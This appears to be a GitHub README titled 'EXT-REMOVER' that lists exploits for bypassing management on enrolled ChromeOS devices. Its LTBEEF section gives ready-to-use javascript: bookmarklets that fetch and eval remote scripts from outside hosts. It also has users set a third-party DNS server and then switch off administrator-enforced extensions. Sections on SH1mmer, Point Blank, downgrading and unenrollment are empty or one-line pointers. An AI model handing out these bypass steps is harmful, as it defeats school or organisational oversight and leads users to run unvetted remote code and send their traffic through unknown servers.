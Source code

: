 # EXT-REMOVER
This is a curated list of exploits for ChromeOS.   
Many of these exploits can destory your computer if used inproperly.  
  
[Echo put your shebeal  about how chromebooks are trash here]

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)  
Credit: LittleMissNyan

<details>
<summary><b>LTBEEF</b></summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())```
    - Compact Cow's UI  
    ```javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});```  

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 
</details>  

<details>
<summary><b>SH1mmer</b></summary>


</details>

<details>
<summary><b>Point Blank</b></summary>
Point Blank

</details>

<details>
<summary><b>Downgrading</b></summary>
See SH1mmer 🤓
</details>

<details>
<summary><b>Full Unenrollment</b></summary>
See SH1mmer 🤓
</details>